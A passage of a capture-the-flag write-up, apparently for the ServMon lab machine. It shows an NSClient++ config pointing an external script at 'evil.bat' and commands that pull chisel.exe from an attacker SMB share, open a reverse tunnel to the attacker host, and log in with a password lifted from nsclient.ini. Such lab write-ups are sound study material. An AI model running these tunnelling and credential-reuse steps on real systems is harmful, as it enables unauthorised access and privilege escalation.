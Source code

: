 ```
evil = c:\Temp\evil.bat


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; foobar - To configure this create a section under: /settings/scheduler/schedules/foob
ar
foobar = command = foobar


; External script settings - General settings for the external scripts module (CheckExt
ernalScripts).
[/settings/external scripts]
allow arguments = true
```

We need to do a remote port forward of port 8443


## Privilege Escalation 

We try SSH port forwarding but fail (have to recheck why this failed - syntaxt issue maybe)

I've seen port forwarding done quite easily on windows using chisel in a few ippsec videos so we try that.

Downloading chisel linux and windows releases from the github page: https://github.com/jpillora/chisel/releases

Get the chisel executable over to the windows host

> nadine@SERVMON C:\Users\Nadine>copy \\10.10.14.21\share\chisel.exe c:\windows\temp\chisel.exe
        1 file(s) copied.


On localhost: 
>./chisel server --host 10.10.14.21 -port 8888 --reverse

On the remote server:
>nadine@SERVMON c:\Windows\Temp>.\chisel.exe client 10.
10.14.21:8888 R:8443:127.0.0.1:8443

Now navigate to https://localhost:8443 
When prompted for the password, enter the password found in the nsclient.ini file

And we are able to login.
